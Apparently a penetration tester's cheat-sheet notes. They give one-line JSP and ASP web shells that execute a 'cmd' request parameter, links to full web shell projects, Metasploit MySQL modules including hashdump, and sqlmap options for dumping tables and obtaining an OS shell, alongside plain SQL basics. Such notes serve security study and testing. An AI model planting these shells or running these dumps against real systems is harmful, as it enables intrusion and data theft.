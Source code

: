 jsp
	`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`

asp
	`<% eval request("cmd") %>`
	if you see something like `aspnet_client` in an FTP server, it could be vulnerable to an aspx shell

Extensive Functionality Web Shells:
- https://github.com/flozz/p0wny-shell
- https://github.com/b374k/b374k
- https://www.r57shell.net/single.php?id=13

# SQL

MySQL MSF modules
- Mysql_enum
- Mysql_login
- Mysql_file_enum
- Mysql_hashdump
- Mysql_schemadump

### Basics
- [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) common log in options
- all queries end with `;`
- enum db and tables commands
	- `SHOW DATABASES`
	- `USE [database]`
	- `DROP database [database]` to exit
	- `SHOW TABLES;` (after selecting a database)
	- `DESCRIBE [table_name]`
- enum table entries
	- `SELECT [value] FROM [table_name];`
	- `SELECT * FROM [table] WHERE [column]=[value] OR [column]=[value]`
		- `[value]` may need quotation marks if it's a string
	- `UNION SELECT` for selecting from multiple tables
		- `SELECT [column],[column], FROM [table] UNION SELECT [column] FROM [table]`
	- `LIKE` to use after `WHERE`
		- `WHERE [column] LIKE 'East%'`
		- `%` is a wildcard at the end
	- `SELECT DISTINCT [column] from [table]`
		- This will show you all of the different values a column has in a table. For example, if you have a table of books and one of the columns is genre, this will return all the different genre values that are present
	- `ORDER BY [column]`
	- `BETWEEN` is like `SELECT * FROM * WHERE os_patch_date BETWEEN ['date'] AND ['date']`
- times in sql are written as `18:00`
- comparison operators: `>, <, =, <=, >=, != (not equal to)`

### SQLmap
- `sqlmap`
	- `-r` request file
	- `--dbs` enumerate database
	- `-D [database] --tables` enumerate tables in a db
	- `-D [database] -T [table] --dump` dumb a table contents
	- `--wizard` guides you through options
	-  `--cookie=PHPSESSID=[cookie value]` if you are logged into an admin account or something. If you exported a .txt file with burp, sqlmap will read the session ID from that file
	- `--os-shell` to try and get command execution
- Troubleshooting 
	- if it's a search function, execute a search to see the specific URL you need. And then replace `search=any+query` as the search value 